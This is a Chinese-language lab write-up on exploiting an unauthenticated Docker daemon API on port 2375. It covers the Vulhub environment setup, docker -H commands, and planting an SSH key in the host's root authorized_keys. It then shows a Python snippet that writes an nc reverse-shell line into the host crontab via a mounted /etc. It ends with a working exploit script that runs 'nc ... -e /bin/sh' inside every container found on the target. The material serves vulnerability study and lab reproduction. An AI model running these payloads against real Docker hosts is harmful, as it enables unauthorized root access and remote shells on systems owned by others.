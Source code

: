 # Docker daemon api 未授权访问漏洞 RCE

## 漏洞描述

Docker 是一个开源的应用容器引擎，让开发者可以打包应用及依赖包到一个轻量级、可移植的容器中，然后发布到 Linux 机器上，也可以实现虚拟化。Docker swarm 是 Docker 的集群管理工具，提供了标准的 Docker API。

在使用 Docker swarm 的时候，管理的 Docker节点上会开放一个 TCP 端口 2375，绑定在 0.0.0.0 上，直接 HTTP 访问会返回 “404 Not Found”。可以通过该 API 执行 Docker 命令，例如创建/删除 container、拉取 image、执行反弹 shell。

参考链接：

- [http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8](http://www.loner.fm/drops/#!/drops/1203.新姿势之Docker Remote API未授权访问漏洞分析和利用)

## 环境搭建

Vulhub编译及启动漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，将监听2375端口。

## 漏洞复现

### 查看容器

```
http://your-ip:2375/containers/json
```

### 执行命令

列出所有镜像：

```
docker -H tcp://your-ip:2375 images
```

列出所有容器：

```
docker -H tcp://your-ip:2375 ps -a
```

启动一个已经停止的容器：

```
docker -H tcp://your-ip:2375 start <container ID>
```

连接一个已经停止的容器：

```
docker -H tcp://your-ip:2375 attach <container ID>
```

### 获取权限

#### 写入 ssh 公钥

启动一个容器，挂载宿主机的 `/root` 目录，之后将攻击者的 ssh 公钥 `~/.ssh/id_rsa.pub` 的内容写到入宿主机的 `/root/.ssh/authorized_keys` 文件中，之后就可以用 root 账户直接登录了。

本地获取 ssh 公钥：

```
ssh-keygen -t rsa
```

#### 反弹 shell

随意启动一个容器，并将宿主机的`/etc`目录挂载到容器中，便可以任意读写文件了。可以将命令写入crontab配置文件，进行反弹shell。

```
import docker

client = docker.DockerClient(base_url='http://[docker ip]:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc [your ip] 2333 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

监听2333端口，接收反弹shell。

此处的反弹shell需要和/etc/crontabs/root文件同时写入，不能后续追加。

![image-20220222182515581](images/202202221825647.png)

## 漏洞EXP

```python
from __future__ import print_function
import requests
import logging
import json
import urllib.parse

# NOTE
# Enable Remote API with the following command
# /usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
# This is an intended feature, remember to filter the port 2375..

name          = "docker"
description   = "Docker RCE via Open Docker API on port 2375"
author        = "Swissky"

# Step 1 - Extract id and name from each container
ip   = "127.0.0.1"
port = "2375"
data = "containers/json"
url  = "http://{}:{}/{}".format(ip, port, data)
r = requests.get(url)

if r.json:
    for container in r.json():
        container_id   = container['Id']
        container_name = container['Names'][0].replace('/','')
        print((container_id, container_name))

        # Step 2 - Prepare command
        cmd = '["nc", "192.168.1.2", "4242", "-e", "/bin/sh"]'
        data = "containers/{}/exec".format(container_name)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":'+cmd+' }'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))


        # Step 3 - Execute command
        id_cmd = r.json()['Id']
        data = "exec/{}/start".format(id_cmd)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "Detach":false,"Tty":false}'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))
        print(r)
```
